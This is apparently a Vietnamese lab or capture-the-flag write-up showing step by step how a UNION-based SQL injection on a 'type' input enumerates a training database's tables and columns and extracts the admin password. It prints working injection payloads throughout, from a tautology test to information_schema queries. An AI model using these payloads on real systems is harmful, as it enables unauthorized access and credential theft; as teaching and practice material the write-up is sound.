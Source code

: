 ## UNION Based SQLi

`Description`: 1 input có thể inject là `type` khi có giá trị tương ứng sẽ hiện ra bảng thông tin.

![image](https://user-images.githubusercontent.com/92881216/220985230-be59ce1e-a5b7-4f4a-a4ca-9ecb7df69910.png)

Đầu tiên test input `type` với payload : `' or '1'='1` thì truy xuất ra được toàn bộ sản phẩm:

![image](https://user-images.githubusercontent.com/92881216/220987891-ccf5aba1-c1a4-432a-b755-84a8b983a2d0.png)

Vì vậy để truy xuất `password` từ 1 bảng khác thì phải khai thác theo `UNION Based`

- Xác định số cột đang có trong bảng hiện tại bằng `order by` với payload `'order by 1-- -` và thử từ 1, 2, 3, ...

Kết quả đến order by 6 thì bắt đầu xuất hiện lỗi, vậy xác định được bảng này có 5 cột.

![image](https://user-images.githubusercontent.com/92881216/220989342-2e381bc9-ed29-453f-a827-bef6ce26217e.png)

Sau đó em sử dụng payload `' union select 1,2,3,4,5 -- `  để xem có echo được ra số nào không và kết quả: 

![image](https://user-images.githubusercontent.com/92881216/220989905-3681eb25-78a9-49a7-9013-f63b220fd567.png)

Vì vậy có thể sử dụng ví trí thứ 2 hoặc 5 để khai thác tiếp.

- Xác định database bằng payload: `' union select 1,database(),3,4,5 -- -` :

![image](https://user-images.githubusercontent.com/92881216/220990302-a19ef335-8095-4d44-99c7-8bb7f27e0016.png)

Vậy biết được database có tên là `kcsc`.

- Xác đinh tên bảng:

Sử dụng payload `' union select 1,GROUP_CONCAT(table_name),3,4,5 +From+information_schema.tables+where+table_schema='kcsc'-- -` với `group_concat()` là hàm sẽ dump ra hết tên các bảng và nối nhau bằng dấu `,`

![image](https://user-images.githubusercontent.com/92881216/220996239-71975fd0-2174-4c28-b6cd-afbca74966d8.png)

Vậy biết được có bảng `products` và `users` và mục tiêu tiếp theo là khai thác vào trong bảng `users`.

- Xác định cột:
Sử dụng payload tượng tự trên: `' union select 1,GROUP_CONCAT(column_name),3,4,5 From information_schema.columns where table_name='users'-- -` :

![image](https://user-images.githubusercontent.com/92881216/220996752-f0d51b61-a2bd-4dbb-920a-2e17c42f037c.png)

- Xác định password:
Sử dụng payload: `' union select 1,password,3,4,5 From users where username ='admin'-- -` :
 
 ![image](https://user-images.githubusercontent.com/92881216/220997281-6adcd020-b94b-4aed-9ab5-89a24aadb305.png)


> password admin: `the_admin_password`
